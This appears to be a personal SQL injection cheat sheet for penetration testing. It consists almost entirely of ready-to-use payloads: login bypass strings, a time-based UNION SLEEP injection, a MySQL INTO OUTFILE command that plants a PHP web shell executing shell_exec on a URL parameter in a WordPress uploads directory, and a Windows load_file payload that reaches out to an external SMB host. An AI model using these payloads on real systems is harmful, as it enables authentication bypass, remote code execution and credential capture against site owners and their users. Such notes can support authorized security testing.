
# Guide

1. [MySQL SQL Injection Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
# Injection Commands

# Example Login Queries

```
SELECT * FROM users where ((password = hash({password})) and (username = {username}))
```

## Password Bypass

```
' or 1=1
```
```
admin' --
```
```
' or '1'='1'--'
```
```
' or 1=1 -- -
```
```
' UNION SELECT SLEEP(10);-- --
```

# Save File

```
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

# Windows

```
term=10' UNION SELECT 1,load_file('\\\\192.168.19.26\\test'),3-- -
```